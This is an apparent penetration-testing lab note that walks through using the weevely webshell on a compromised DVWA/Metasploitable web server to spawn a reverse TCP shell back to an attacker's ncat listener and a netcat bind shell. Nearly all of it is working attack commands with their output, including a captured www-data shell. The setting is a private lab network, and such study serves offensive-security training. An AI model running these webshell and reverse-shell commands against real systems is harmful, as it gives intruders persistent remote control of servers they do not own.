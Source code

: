 # 05 - Spawn Callback Shell

Search Tag(s): #weevely #command-and-control #webshell #interactive-shell

## 5.1 Reverse Shell

* Attacker (waiting callback)

```
userware@hackware-os:~$ sudo ncat -lnvp 443
```

* Compromised Target (Web Server)

```
weevely> backdoor_reversetcp -h
The remote script execution triggers an error 500, check script and payload integrity
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect] [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}] lhost port

Execute a reverse TCP shell.

positional arguments:
  lhost                 Local host
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_reversetcp -shell /bin/bash -vector netcat_bsd 172.28.128.14 443
The remote script execution triggers an error 500, check script and payload integrity
Error binding socket: '[Errno 98] Address already in use'
```

- Attacker (callback established)

```
userware@hackware-os:~$ sudo ncat -lnvp 443
[sudo] password for user:
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.28.128.8.
Ncat: Connection from 172.28.128.8:47902.
bash: no job control in this shell
www-data@metasploitable:/var/www/dvwa/vulnerabilities$ ls
brute
csrf
exec
fi
sqli
sqli_blind
upload
view_help.php
view_source.php
view_source_all.php
xss_r
xss_s
www-data@metasploitable:/var/www/dvwa/vulnerabilities$
```

## 5.2 Bind Shell

The `:backdoor_tcp` command module function in weevely for spawning a remote shell via netcat.

* Compromised Target (Web Server)

```
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_tcp -shell /bin/bash -vector netcat 8080
The remote script execution triggers an error 500, check script and payload integrity
Error connecting to 172.28.128.8:443: remote port not open or unreachable
```

The alternative is you run with any commands.

```
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ nc -lnvp 8080
```

* Attacker

```
userware@hackware-os:~$ nc 172.28.128.8 8080
```

---
## References

* [Web App Hacking Part 6 Injecting a Backdoor into a Website with Weevely](https://www.hackers-arise.com/post/2017/12/03/Web-App-Hacking-Part-6-Injecting-a-Backdoor-into-a-Website-with-weevely)